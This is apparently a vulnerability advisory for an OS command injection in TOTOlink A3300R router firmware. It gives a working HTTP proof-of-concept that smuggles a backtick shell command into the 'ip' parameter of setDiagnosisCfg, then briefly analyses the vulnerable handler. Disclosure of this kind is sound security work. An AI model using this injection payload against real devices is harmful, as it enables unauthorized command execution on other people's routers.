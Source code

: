 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information
Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Vulnerability Description
When deal with setDiagnosisCfg request, ip parameter is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/advance/diagnosis.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"ip":"1.2.3.4`ls>/web/cmd.txt`","num":"2","topicurl":"setDiagnosisCfg"}
```

injection the command "ls>/web/cmdi.txt"

![poc1](img/poc1.jpg)

check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```

![poc2](img/poc2.jpg)

## Analyse
sub_413968 will handle the setDiagnosisCfg request. sub_413968 firstly get ip and num from request body, then pass to CsteSystem function.

![ana1](img/ana1.jpg)

CsteSystem wraps the command and then passes it to execv to execute the command.

![ana3](img/ana3.jpg)